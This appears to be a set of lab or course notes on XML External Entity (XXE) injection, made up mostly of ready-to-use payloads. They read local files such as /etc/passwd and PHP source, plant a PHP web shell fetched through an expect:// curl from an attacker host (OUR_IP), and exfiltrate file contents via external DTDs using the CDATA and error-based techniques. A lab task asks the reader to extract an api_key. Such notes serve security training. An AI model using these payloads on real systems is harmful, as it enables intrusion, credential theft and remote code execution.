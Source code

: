 ___
# Local File Disclosure

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

## RCE

```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer. 

# Advanced Exfiltration with CDATA

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

This will not work, since XML prevents joining internal and external entities.

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
```

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

# Error Based XXE

First, we will host a DTD file that contains the following payload:
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

This method may also be used to read the source code of files. All we have to do is change the file name in our DTD script to point to the file we want to read (e.g. `"file:///var/www/html/submitDetails.php"`). However, `this method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it.

